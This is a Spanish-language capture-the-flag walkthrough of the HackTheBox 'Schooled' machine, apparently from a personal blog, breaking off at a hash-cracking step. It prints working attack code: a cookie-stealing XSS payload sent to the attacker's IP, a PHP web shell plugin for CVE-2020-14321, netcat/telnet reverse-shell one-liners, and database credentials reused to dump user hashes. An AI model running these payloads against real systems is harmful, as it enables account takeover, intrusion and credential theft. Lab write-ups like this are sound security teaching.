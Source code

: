 ```yaml
---
layout      : post
title       : "HackTheBox - Schooled"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335banner.png
category    : htb
tags        : [ moodle, CSRF, cookie-hijacking, pkg, SUID, sudo, FreeBSD ]
---
```

Máquina **FreeBSD** nivel medio, linda locura, nos moveremos mucho por **Moodle** robando cookies, cambiando roles a los cuales no deberíamos cambiar e instalando plugins maliciosos. Crackearemos hashes y finalmente aprovecharemos los permisos que tenemos en el sistema con **pkg install** para instalar paquetes algo peligrosos.

![335schooledHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335schooledHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [TheCyberGeek](https://www.hackthebox.eu/profile/114053).

Jugaremos con **fuzzing de subdominios** para encontrar un servicio `moodle` el cual esta infestado de problemas :P 

Nos aprovecharemos de un profesor que esta validando si tenemos una característica en nuestro perfil de estudiante para robarle su **cookie de sesión** y convertirnos en él. Estando dentro del **Moodle** como profesores, tendremos algunos `CVEs` que justamente explotan acciones como ellos.

Tendremos uno en el que podremos aprovechar una mala configuración, modificaremos el rol de nuestro usuario para permitirle a otro usuario convertirse en **manager** de un curso, con esto lograremos que el usuario con rol de **manager** por default (**Lianne**) instale <u>plugins</u> mediante un archivo `.zip` malicioso. Finalmente lograremos **RCE** como el usuario `www`.

Adentro encontraremos archivos de configuración, entre ellos la conf de la base de datos, nos apoyaremos de `myslqshow` y `mysqldump` para ver el contenido de una tabla con usuarios, uno de ellos conocido en el sistema. Tendremos contraseñas cifradas, apoyándonos de `John The Ripper` lograremos crackerlas y hacer uso de una de ellas para obtener una Shell como el usuario `jamie` en el sistema.

Enumerando los permisos que tenemos con **jamie**, veremos que puede actualizar e instalar paquetes en el sistema usando `pkg install`. Aprovecharemos esto para que mientras se esta instalando un paquete, nosotros podamos inyectar comandos en ese mismo paquete. Así estaríamos ejecutando las instrucciones como el usuario `root`. Obtendremos una Shell como él modificando el binario `/bin/bash` dándole permisos `SUID`.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Bastante bastante real, vulns conocidas y bastante investigación.

> Escribo para tener mis "notas", por si algun día se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Camino de verdades y verdaderas mentiras.

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con **nmap**](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el puerto 80 pa ver que hay por ahí](#puerto-80).
  * [Encontramos el servicio **Moodle** corriendo en el servidor web](#web-moodle).
3. [Explotación](#explotacion).
  * [Jugamos con un mensaje de un profesor y robamos cositas (con respeto)](#teacher-cookie-hijacking).
  * [Divagando y explotando la versión del **Moodle**](#CVE-2020-14321).
4. [Movimiento Lateral **MySQL**: **www** -> **jamie**](#movimiento-lateral-jamie).
5. [Escalada de privilegios](#escalada-de-privilegios).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Vemos que puertos están abiertos con <u>nmap</u> [📌](#enum-nmap) {#enum-nmap}

Empezamos haciendo un escaneo de puertos, así sabemos que servicios esta corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.234 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                                                                                  |
| --open    | Solo los puertos que están abiertos                                                                      |
| -v        | Permite ver en consola lo que va encontrando                                                             |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/Writeups/master/HTB/Magic/images/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Sun Apr 11 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.234
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.234 ()   Status: Up
Host: 10.10.10.234 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 33060/open/tcp//mysqlx///
# Nmap done at Sun Apr 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 216.96 seconds
```

Perfecto, nos encontramos los servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Contamos con la posibilidad de obtener una Shell de manera segura. |
| 80     | **[HTTP](https://www.techtarget.com/searchnetworking/definition/port-80)**: Tenemos una página web. |
| 33060  | **[MySQLx](https://serverfault.com/questions/1031235/what-is-the-port-33060-for-mysql-server-ports-in-addition-to-the-port-3306#answer-1031240)**. |

Ahora hagamos un escaneo de scripts y versiones para tener info más especifica de cada puerto:

```bash
❭ nmap -p 22,80,33060 -sC -sV 10.10.10.234 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
# Nmap 7.80 scan initiated Sun Apr 11 25:25:25 2021 as: nmap -p 22,80,33060 -sC -sV -oN portScan 10.10.10.234
Nmap scan report for 10.10.10.234
Host is up (0.19s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.80%I=7%D=4/11%Time=60731B26%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"...");
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 78.15 seconds
```

Obtenemos (varias cositas que veremos después) por ahora:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 7.9 (FreeBSD 2020/02/14) |
| 80     | HTTP     | Apache httpd 2.4.46 (FreeBSD)    |
| 33060  | MySQLx   | - |

Ahora exploremos cada servicio a ver por donde podemos vulnerar el sistema.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Dando vueltas con el puerto 80 [📌](#puerto-80) {#puerto-80}

![335page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80.png)

Nos encontramos una página web de una institución para estudiar online, dándole una vuelta nos encontramos un email y también alusión al dominio `schooled.htb`:

![335page80_footer](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_footer.png)

Listo, guardemos el email por si algo y agreguemos ese dominio al archivo `/etc/hosts` para que cuando hagamos peticiones hacia el dominio **schooled.htb** nos resuelva hacia la IP **10.10.10.234**, que quizás tenga info diferente...

* [Info archivo **/etc/hosts**](https://tldp.org/LDP/solrhe/Securing-Optimizing-Linux-RH-Edition-v1.3/chap9sec95.html).

---

```bash
❭ cat /etc/hosts
...
10.10.10.234  schooled.htb
...
```

Y validando de nuevo en la web, pero en vez de escribir la IP ahora escribimos el dominio y obtenemos aparentemente el mismo resultado que antes.

Enumerando nos encontramos el apartado `/teachers.html` el cual tiene algunos nombres y roles que podemos guardar por si llegamos a encontrar algún portal o algo que podamos relacionar:

![335page80_teachers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_teachers.png)

```bash
Jane Higgins -> Scientific.
Lianne Carter -> Manager & Profesora.
Manuel Phillips -> Profesor.
Jamie Borham -> Profesora.
```

Siguiendo, en el apartado `/contact.html` encontramos unos campos a llenar y al enviarlos nos redirecciona a un archivo llamado `contact.php`, pero obtenemos un error con estado **404 Not Found**...

---

## Encontramos el servicio <u>Moodle</u> [📌](#web-moodle) {#web-moodle}

Acá no encontramos nada más en la web, jugando con el código fuente o con las carpetas que hay no vemos nada, así que procedamos a fuzzear un poco...

Haciendo un fuzzing de archivos y directorio no encontramos nada, pero si fuzzeamos a ver si existe otro dominio relacionado con `schooled.htb` el cual responda a la IP **10.10.10.234** tenemos:

```bash
❭ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.234 -H 'Host: FUZZ.schooled.htb'
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000022:   200        461 L    1555 W     20750 Ch    "pop3"
000000001:   200        461 L    1555 W     20750 Ch    "www"
000000003:   200        461 L    1555 W     20750 Ch    "ftp"
000000007:   200        461 L    1555 W     20750 Ch    "webdisk"
000000015:   200        461 L    1555 W     20750 Ch    "ns"
000000023:   200        461 L    1555 W     20750 Ch    "forum"
...
```

Tenemos muchos, pero probablemente sean falsos positivos, así que filtremos para que nos quite todos los que tengan como numero total de letras **1555**:

```bash
❭ wfuzz -c --hc=404 --hw=1555 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.234 -H 'Host: FUZZ.schooled.htb'
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000162:   200        1 L      5 W        84 Ch       "moodle"
```

Perfecto, aparentemente tenemos un nuevo dominio a probar, pues agreguémoslo junto a **schooled.htb** al archivo `/etc/hosts`:

```bash
❭ cat /etc/hosts
...
10.10.10.234  schooled.htb moodle.schooled.htb
...
```

Y validando en la web nos encontramos con:

![335page80_moodle](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle.png)

Nice, tenemos un servicio `moodle`, que según [Wikipedia](https://es.wikipedia.org/wiki/Moodle) es:

🎓 ***Herramienta de gestión de aprendizaje (LMS), o más concretamente de <u>Learning Content Management</u> (LCMS), de distribución libre, escrita en PHP.***

* [Web Oficial de Moodle](https://moodle.org/?lang=es).

Si intentamos ver cualquier recurso nos pide un ingreso por medio de credenciales... (Probar contraseñas por default y con los profesores encontrados no nos dio resultado). 

Pero también podemos ingresar como invitado o crearnos una cuenta, probando inicialmente el acceso como invitado contra cualquier curso nos pide que debemos tener una cuenta:

![335page80_moodle_mathEnrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_mathEnrol.png)

Dando vueltas por el sitio como invitado vemos varias URL's posiblemente llamativas:

* `http://moodle.schooled.htb/moodle/enrol/index.php?id=5`

  El **ID** va del **5** al **2**, el número **1** nos redirecciona a la página principal donde están todos los cursos.

* `http://moodle.schooled.htb/moodle/calendar/view.php?view=month`

  Tiene la opción de variar entre **día**, **mes** y **año**, pero solo **mes** (month) funciona.


* `http://moodle.schooled.htb/moodle/calendar/view.php?view=month&time=1614556800`

  Podemos ver el calendario de varios meses, ya que **time** depende del mes que escojamos.

Entonces, con esto en mente podríamos probar **inyección SQL** (no va por acá) de varias maneras, validando rápidamente que no existan más IDs (cursos) tenemos:

```bash
❭ for id in $(seq 0 20); do echo -n "ID: $id -> Status Code: "; curl -s -I --cookie "MoodleSession=2a9js25d3usf0dv3u5r27c21nn" http://moodle.schooled.htb/moodle/enrol/index.php?id=$id | grep "HTTP/1.1" | awk '{print $2}'; done

ID: 0 -> Status Code: 404
ID: 1 -> Status Code: 303
ID: 2 -> Status Code: 200
ID: 3 -> Status Code: 200
ID: 4 -> Status Code: 200
ID: 5 -> Status Code: 200
ID: 6 -> Status Code: 404
ID: 7 -> Status Code: 404
ID: 8 -> Status Code: 404
ID: 9 -> Status Code: 404
ID: 10 -> Status Code: 404
ID: 11 -> Status Code: 404
ID: 12 -> Status Code: 404
ID: 13 -> Status Code: 404
ID: 14 -> Status Code: 404
ID: 15 -> Status Code: 404
ID: 16 -> Status Code: 404
ID: 17 -> Status Code: 404
ID: 18 -> Status Code: 404
ID: 19 -> Status Code: 404
ID: 20 -> Status Code: 404
```

Ahora probando a registrarnos encontramos un nuevo dominio:

![335page80_moodleSignup](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleSignup.png)

* `student.schooled.htb`.

Pero agregándolo al archivo `/etc/hosts` y validando su contenido nos damos cuenta de que responde con el mismo de `schooled.htb`. Así que cambiamos nuestro email con ese dominio y nos permite registrarnos:

![335page80_moodleDash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleDash.png)

Vemos algo interesante a la izquierda, **Private files**, echándole un ojo nos permite subir archivos, podemos hacerlo mediante un URL:

![335page80_moodlePrivFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodlePrivFiles.png)

Probando a que el servicio lea un archivo que esté alojado en nuestra máquina (servidor) obtenemos respuesta, pero después de varios intentos no logramos nada relevante. Dando vueltas encontramos que podemos modificar nuestra imagen de perfil. Intentamos lo mismo que antes e incluso subir una imagen con metadatos `PHP` o cambiándole los magic bytes a un script para que el sistema crea que es un `JPEG`, pero nada, no obtenemos respuesta. 

* [**INFO metadata y cambiar magic bytes**. (En la mitad del post esta)](https://lanzt.github.io/blog/htb/HackTheBox-Magic).

Entrando en **Site home** nos damos cuenta de algo interesante, el curso **Mathematics** es el único al cual podemos "anotarnos" como estudiantes:

![335page80_moodleMathEnrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathEnrol.png)

Después de anotarnos (enrolarnos) nos redirige a:

```bash
http://moodle.schooled.htb/moodle/course/view.php?id=5
```

![335page80_moodleMathView](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathView.png)

Si nos movemos a **Annoucements** tenemos 2 mensajes:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathAnnoun.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Fijándonos en el primero tenemos información interesante:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathAnn_reminder.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

# Explotación [#](#explotacion) {#explotacion}

...

## Jugamos con la interacción del profesor para robarle su cookie [📌](#teacher-cookie-hijacking) {#teacher-cookie-hijacking}

👨‍🏫 ***Students who do not set their <u>MoodleNet profiles</u> will be removed from the course before the course is due to start and <u>I will be checking all students who are enrolled on this course</u>***.

Nos indica que el usuario **Manuel Phillips** (profesor) estará revisando que todos los estudiantes que se unan a su curso tengan habilitado o modificado en su perfil (estudiante) algo llamado **MoodleNet** (que es una red social para educadores según la [web oficial](https://moodle.com/es/moodlenet/)) :O

Opa, esto esta interesante, ya que dependiendo el campo el cual debamos modificar podríamos pensar en robarle la `cookie` al profesor, ya que estaría verificando nuestro perfil (**siempre y cuando estemos enrolados en su curso**), por lo tanto esta entrando en el campo (de nuestro perfil) y validaría su contenido. 

Veamos, vamos a nuestro perfil arriba a la derecha, damos clic en **edit profile** y vemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleProfile_mooNet.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Es un campo de texto, pues vayamos a la fija e intentemos que lea algo de nuestro servidor a ver si realmente el profesor esta validando el input:

Levantamos servidor web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y en el campo **MoodleNet** escribimos:

```js
<script src="http://10.10.14.11:8000/serompe.oque"></script>
```

Guardamos los cambios... Y si revisamos nuestro servidor:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.234 - - [12/Apr/2021 25:25:25] code 404, message File not found
10.10.10.234 - - [12/Apr/2021 25:25:25] "GET /serompe.oque HTTP/1.1" 404 -
```

Entonces, esta perfecto, sabemos que el profesor esta validando ese campo, ahora podemos proceder a robarle su cookie, para esto simplemente indicamos en el campo `MoodleNet`:

```js
<script>document.write('<img src="http://10.10.14.11:8000/serompe.oque?cookie=' + document.cookie + '">')</script>
```

Esto va a intentar subir una imagen (como antes), solo que como la imagen "esta" en nuestro servidor, intentara cargarla, peeeero además le concatenamos una variable llamada `cookie` que guardara la sesión del usuario que ingrese al campo (con `document.cookie`), o sea, obtendríamos la cookie del profesor que esta validando el campo.

Guardamos yyyyyyyyyy en nuestro servidor obtenemos:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.234 - - [12/Apr/2021 25:25:25] code 404, message File not found
10.10.10.234 - - [12/Apr/2021 25:25:25] "GET /serompe.oque?cookie=MoodleSession=boejsdgppi3r50rahsn0tcnqji HTTP/1.1" 404 -
```

PERFECTOOOOOOOOOOOO, tenemos la petición con una cookie, pues probemos a cambiar la nuestra por esa:

![335page80_moodle_changeCookie](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_changeCookie.png)

VAMONOOOOOOOOOOOOOOOOOOS, somos el usuario `Manuel Phillips`. 

En su perfil vemos un correo y un dominio, podemos guardarlos por si algo. Además sabemos la estructura de como están (suponemos) guardados los usuarios (o profesores) del servidor: `apellido_nombre@dominio`.

---

## Divagando y explotando la versión de <u>Moodle</u> [📌](#CVE-2020-14321) {#CVE-2020-14321}

Viendo que podemos hacer ahora como profesor, leyendo cositas y probando otras, finalmente en la web encontramos un PoC haciendo alusión al CVE [CVE-2020-14321](https://moodle.org/mod/forum/discuss.php?d=407393) que se ve interesante:

* [Youtube - Moodle RCE **CVE-2020-14321** POC](https://www.youtube.com/watch?v=BkEInFI4oIU).

---

![335google_cve_moodle](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335google_cve_moodle.png)

La vulnerabilidad se basa en que un **profesor** puede asignarse a sí mismo o a otros el rol de **manager** dentro de un curso, <u>lo que le daría poder de manipular el curso como **administrador**</u> 😮

Entonces, si indagamos un poco encontramos el [PoC oficial](https://github.com/HoangKien1020/CVE-2020-14321) de la persona que encontró la vulnerabilidad:

* **Kien Hoang** - [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).

Ya tenemos todo lo que necesitamos, así que sigamos los mismos pasos que el video:

<span style="color: yellow;"><u>1.</u> </span>Nos logeamos como profesor, pero como tenemos la cookie de uno, tamos bien.

![335page80_moodle_changeCookie](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_changeCookie.png)

<span style="color: yellow;">2. </span>Vamos al curso del cual somos profesor, en nuestro caso **mathematics (Maths)**, damos clic en **Participants** y después en **Enrol users**.

![335page80_moodle_cve_stepsToEnrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_stepsToEnrol.png)

![335page80_moodle_cve_enrolUsers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_enrolUsers.png)

Estando en esa ventana seleccionamos al usuario `Lianne Carter` para enrolarla al curso (ya jugaremos con burp), pero, ¿por qué ella? Bueno si recordamos cuando encontramos los profesores en la web, estaba **Lianne Carter** como <u>manager del sitio</u>, así que nos aprovecharemos para cambiar unos valores y enrolarla, pero como administradora del curso (si no, se enrolaría como estudiante :P).

Interceptamos mediante **BurpSuite** la petición y damos clic en **Enrol users**, obtenemos:

![335burp_moodle_cve_enrolUser_lianne](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335burp_moodle_cve_enrolUser_lianne.png)

Dos campos importantes:

* `userlist[]=` (ID del usuario).
* `roletoassign=` (Rol a asignar, **1 es manager** según [esta documentación](https://docs.moodle.org/all/es/Gestionar_roles)).

---

![335google_moodle_roles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335google_moodle_roles.png)

Así que en vez de `5` colocamos `1` y enviamos la petición. 

Pero validando en la web no vemos que **Lianne** sea **manager** aún:

```html
Lianne Carter - carter_lianne@staff.schooled.htb - Student
```

Si modificamos al usuario **Manuel (ID 24)** (con el que estamos) para que también tenga el rol de **manager** obtenemos en la web:

```html
Lianne Carter - carter_lianne@staff.schooled.htb - Manager, Student
...
Manuel Phillips - phillips_manuel@staff.schooled.htb - Manager, Teacher
```

Listos, ahora si podemos seguir con el **PoC**...

<span style="color: yellow;">3. </span>Obtenemos una sesión en *Moodle* como **Lianne** (manager) en el curso.

Damos clic en el nombre de **Lianne** y estando en su perfil vamos a `Log in as`:

![335page80_moodle_cve_lianne_logIN](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_logIN.png)

Y ahora somos **Lianne** y tenemos acceso a un nuevo apartado, `Site administration`:

![335page80_moodle_cve_lianne_siteAdmin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_siteAdmin.png)

<span style="color: yellow;">4. </span>Vamos a instalar un **plugin** malicioso.

Entramos al sitio administrativo y seleccionamos `Plugins`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_plugins.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora damos clic en `Install plugins`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_installPlugin.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Nos pide un archivo `zip` para instalar el plugin. Volviendo al repo vemos que nos provee con un comprimido llamado `rce.zip`:

* [https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip](https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip).

Lo descargamos y validando su contenido tenemos:

```bash
❭ tree rce
rce
├── lang
│   └── en
│       └── block_rce.php
└── version.php
```

🔦 `block_rce.php` es el archivo que nos permite ejecutar comandos en el sistema, todo mediante la variable `cmd` que recibe en la petición `GET`:

```php
❭ cat rce/lang/en/block_rce.php 
<?php system($_GET['cmd']); ?>
```

🔦 `version.php` permite la generación del plugin y llama a nuestro archivo malicioso:

```php
❭ cat rce/version.php 
<?php 
$plugin->version = 2020061700;
$plugin->component = 'block_rce';
```

Listos, para subir el archivo `zip`, seleccionamos el objeto y damos clic en **<u>Install plugin from the ZIP file</u>**, recibimos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_installPluginFromZIP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en **<u>Continue</u>** y según las indicaciones del **PoC** simplemente debemos dirigirnos a la siguiente ruta: 

```bash
<domain>/blocks/rce/lang/en/block_rce.php
``` 

Y concatenarle el comando que queramos ejecutar con la variable `cmd`, modificándola quedaría así para ejecutar el comando `id`:

```html
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

![335page80_moodle_cve_lianne_pluginInstalled_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_pluginInstalled_RCE.png)

PERFECTOOOOOOOOOOOOOOOOOOOOOOo tenemos ejecución remota de comandossadflakjwlekfjlkasd (: Intentemos conseguir una reverse Shell...

Nos ponemos en escucha con **netcat**: `nc -lvp 4433`.

* [Reverse Shells Others and **FreeBSD**](https://sentrywhale.com/documentation/reverse-shell).

Probando estas dos sentencias lo logramos:

```html
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |telnet 10.10.14.11 4433 > /tmp/f
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 10.10.14.11 4433 > /tmp/f
```

Y Listones, ya estariamos dentro. Intentando hacer tratamiento de la `TTY` o al menos tener una Shell más bonita, tenemos problemas y no lo logramos :( Así que enumeremos a ver como podemos movernos a algo lindo.

...

Como vimos, el proceso es muuuuy largo y tedioso de hacer manual, por lo tanto me cree dos scripts, uno enfocado 100% en la máquina, con él nos agrega la línea en el perfil de **Moodle** y también toooooooooooodo el tema del **RCE**.

* [moodle_schooled_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/schooled/moodle_schooled_RCE.py)

El otro explota directamente el **CVE**, por lo que funciona contra cualquier `Moodle 3.9` con el que tengas credenciales de un profesor (o una cookie :P)

* [exploit.db - **Moodle 3.9** Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50180).

...

# <u>MySQL</u>: www -> jamie [#](#movimiento-lateral-jamie) {#movimiento-lateral-jamie}

Enumerando los usuarios del sistema tenemos:

```bash
ls -la /home
lrwxr-xr-x  1 root  wheel  8 Feb 26 22:45 /home -> usr/home
ls -la /usr/home
total 26
drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
drwxr-xr-x  16 root   wheel  16 Feb 26 22:46 ..
drwx------   2 jamie  jamie  11 Feb 28 18:13 jamie
drwx------   5 steve  steve  14 Mar 17 14:05 steve
```

* **jamie** y **steve**.

Leyendo archivos de la ruta donde salimos encontramos la configuración de la base de datos:

```bash
pwd
/usr/local/www/apache24/data/moodle
cat config.php
```

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

* **moodle** -> **PlaybookMaster2020**

Buscando la manera de jugar con `MySQL` con esta terminal encontramos las lindas herramientas:

```bash
find / -name mysqlshow
/usr/local/bin/mysqlshow
```

Usémosla para intentar ver el contenido de la base de datos:

```bash
/usr/local/bin/mysqlshow -u moodle -pPlaybookMaster2020
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
```

Tenemos la base de datos `moodle` (aunque ya lo sabíamos del archivo `config.php`), veamos sus tablas:

```bash
/usr/local/bin/mysqlshow -u moodle -pPlaybookMaster2020 moodle
Database: moodle
+----------------------------------+
|              Tables              |
+----------------------------------+
| mdl_analytics_indicator_calc     |
| mdl_analytics_models             |
...
| mdl_user                         |
...
```

Ahora que tenemos una tabla llamativa podemos usar `mysqldump` para "dumpear" (realmente hace como si quisiéramos realizar un backup, por eso dumpea) la info de lo que le pidamos, en este caso de la tabla `mdl_user`:

```bash
/usr/local/bin/mysqldump -u moodle -pPlaybookMaster2020 moodle mdl_user
```

![335bash_wwwRS_mysqldump_MDLuserTable](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335bash_wwwRS_mysqldump_MDLuserTable.png)

Vemos muuuucha información, pero toda es relacionada con usuarios, si ajustamos la visión vemos un usuario llamado `jamie` y que esta relacionado con el **staff**, por lo que puede ser el mismo **jamie** del sistema, podemos tomar su **hash** e intentar crackearlo.

```bash
❭ cat jamie_hash
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
```

Usaremos `John The Ripper`:

```bash
